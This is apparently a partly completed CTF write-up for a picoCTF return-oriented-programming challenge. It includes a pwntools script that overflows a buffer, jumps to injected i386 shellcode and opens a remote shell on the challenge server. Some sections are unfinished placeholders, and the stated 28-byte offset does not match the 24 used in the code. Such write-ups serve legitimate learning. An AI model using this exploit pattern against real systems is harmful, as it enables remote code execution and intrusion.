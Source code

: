 # CTF Write-Up: [Challenge Name][Challenge Type]

## Description
>What's ROP?
Can you exploit the following program to get the flag? Download source.


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{5n47ch_7h3_5h311_4cbbb771}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb

## Write-Up

### Preparatory Phase
As per the name of the challenge I had to research how to conduct return-oriented programming (ROP). It a relatively intermediate-level skill which builds upon the the skills I've learnt in buffer overflow exploitaiton. The following step by step was as summary of [this](#https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing). The basic premise of this is to chain together so-called gadgets which enables us as the attacker to force the program to jump to un-intended areas of code. Gadgets are an instruction which typically ends with a `ret` for example: `pop rdi; ret.`

1. Find the offset to the return address via `gdb`
2. 




### Attack Phase
Using `checksec vuln` I was able to ascertain important information such as the binary's architecture and protections. An interesting discovery was that the stack was exectuable. Therefore I suspected we could execute our own shell code 
![alt text](image.png)

I now used `gdb` to find the offset which was determined to be 28 bytes. Therefore we need 28 bytes to reach the return pointer which for a 32-bit system is the `eip` register. 

### Final Solution/Payload
``` py
from pwn import *

local = False
offset = 24
short_jump = b'\xeb\x08\x90\x90'
payload = b'A' * offset
payload += short_jump
payload += p32(0x0805333b)
payload += b'\x90'*100
payload += asm(shellcraft.i386.linux.sh())

if local:
    io = process('./vuln')
else:
    io = remote('saturn.picoctf.net', 60948)
io.sendline(payload)
io.interactive()
```

### Lessons Learnt
I had to first understand what return oriented programming was. By extension this required understanding what [gadgets] were. 
## References
- Link to any external resources, write-ups, or documentation that were helpful in solving the challenge.

